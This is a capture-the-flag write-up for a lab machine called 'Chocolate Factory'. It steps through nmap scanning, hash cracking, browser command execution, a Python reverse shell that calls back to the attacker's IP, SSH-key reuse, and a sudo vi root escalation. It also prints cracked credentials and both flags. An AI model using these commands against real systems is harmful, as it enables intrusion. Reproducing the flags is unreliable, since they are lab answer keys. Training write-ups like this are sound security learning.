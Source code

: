 # Chocolate Factory
## nmap
```nmap
sudo nmap -T4 -sV -sC -oN nmap/scan 10.10.41.157
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-21 09:13 EST
Nmap scan report for 10.10.41.157
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.170.173
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
100/tcp open  newacct?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"

```

## Enumerate ftp

- Download image 'gum_room.jpg'
- Run `stegseek rockyou.txt gum_room.jpg`
- Find there is no password
- Decode b64 txt file: 
	- `charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::`

## Crack hash with hashcat 
- `hashcat -m 1800 rockyou.txt hash.txt -O`
- Retrieve credentials: 
	- `charlie:cn7824`

## Enumerate http
- Run dirbuster
- Discover `home.php` which allows us to run commands in the browser
- Forward to burp and discover files 
- Cat `validate.php` with full URL encoding to discover cracked password above
- Cat key_rev_key to discover the key `'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`
- Attempt reverse shell with bash which fails
- Attempt reverse shell with python one liner (Refer to Payloadallthings github):
	- `python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.170.173",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`

## Foothold
- We are www-data
- Change user to charlie with retrieved credentials, fails
- Discover `teleport` file in /home/charlie
- Its ssh private key
- Save private key on attacker machine, chmod 600 ssh.key
- Run `ssh -i ssh.key charlie@10.10.243.163`
- Retrieve flag in /home/charlie/user.txt
	- `flag{cd5509042371b34e4826e4838b522d2e}`

## PrivEsc
- Run `sudo -l`
- Discover we can run vi with sudo privs
- Gtfo bin it `sudo vi -c ':!/bin/sh' /dev/null`
- Run `python -c 'import pty; pty.spawn ("/bin/bash")'` for better shell
- We are root
- Discover root.py in root directory
- Try running it with `python root.py`
- Enter the key found above
- Retrieve flag:
	- `flag{cec59161d338fef787fcb4e296b42124}`